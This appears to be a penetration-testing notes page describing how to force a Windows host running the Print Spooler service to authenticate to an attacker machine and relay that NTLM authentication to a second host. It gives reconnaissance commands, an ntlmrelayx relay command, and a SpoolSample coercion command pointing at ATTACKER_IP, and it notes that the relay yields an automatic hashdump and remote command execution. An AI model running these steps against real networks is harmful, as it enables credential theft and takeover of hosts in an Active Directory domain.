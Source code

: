 # Exploiting authentication relay \~ Print Spooler Service

### Resources

1. **Print System Remote Protocol** (**MS-RPRN**)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1" %}

2. &#x20;**Print Spooler Service**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc" %}

3. **Impacket scripts**

{% embed url="https://www.kali.org/tools/impacket-scripts/" %}

4. **SpoolSample exploitation script**

{% embed url="https://github.com/leechristensen/SpoolSample" %}

A certain bug or "feature" in Microsoft Print System Remote Protocol (MS-RPRN) allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitary IP address.

> Note that the attack discussed below can be unstable, and may cause the Print Spooler service to crash, and the success of the attack varies.

To exploit this flaw, we need to meet the following requirements:

1. A valid set of AD account credentials

* To have access to machines within the AD network, to perform required tasks in the other steps

2. Network connectivity to the target's SMB service
3. The target host must be running the Print Spooler service
4. The hosts involved must not have SMB signing enforced



The sections below discusses how to explore the requirements listed above.

#### #3 The target host must be running the Print Spooler service

We can utilize a few WMI queries from another machine on the network (with network connectivity to the target host) to query the current state:

```powershell
PS> GWMI Win32_Printer -ComputerName <target>
# OR
PS> Get-PrinterPort -ComputerName <target>
```

> Note that the success of this may vary, as Microsoft has been limiting the view on these ports from the network perspective.

#### #4 The hosts involved must not have SMB signing enabled

We can use nmap to enumerate the SMB signing enforcement on our target hosts:

{% code overflow="wrap" %}
```sh
$ nmap --script=smb2-security-mode -p445 <target1> <target2>
```
{% endcode %}

Ideally, we look for the following output: "**Message signing enabled but not required"**.

### Exploitation

From Bloodhound, we may be able to find a situation where a computer (machine account) has privileges over another computer, and is running the Print Spooler service that we can exploit. This means that we can coerce the first host to authenticate to the second host.

&#x20;To which we can perform an authentication relay attack to gain access to the second host as the machine account of our original target host. If the machine account has a dangerous privilege over the other host, we can further exploit it to gain more access.

1. First, we can use ntlmrelayx.py from impacket scripts to setup the NTLM relay:

> This should be ran from the attacker machine

{% code overflow="wrap" %}
```sh
$ python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"TARGET IP" -debug
```
{% endcode %}

* `TARGET_IP` : the IP address of the second host to which we want to relay the NTLM authentication to
  * Note that we specify the IP address instead of the hostname as we want to prevent Kerberos authentication (which relies on the hostname) from happening

2. Next, we have to coerce our target with the [SpoolSample](https://github.com/leechristensen/SpoolSample) exploitation script:

```
C:\> SpoolSample.exe <target> "ATTACKER_IP"
```

* `<target>` : Hostname of the target host (to which we wish to coerce the authentication from)
* `ATTACKER_IP` : the IP address of our attacker machine from the first step



3. After performing step 3, we will now have received an authentication attempt and a relay to the second host (from the ntlmrelayx impacket script on the attacker machine), while also an automatic hashdump which may provide use with credentials to get a shell on the host.

Optionally,  we can use the `-c` flag to execute a commnd on the target system (for SMB and RPC).

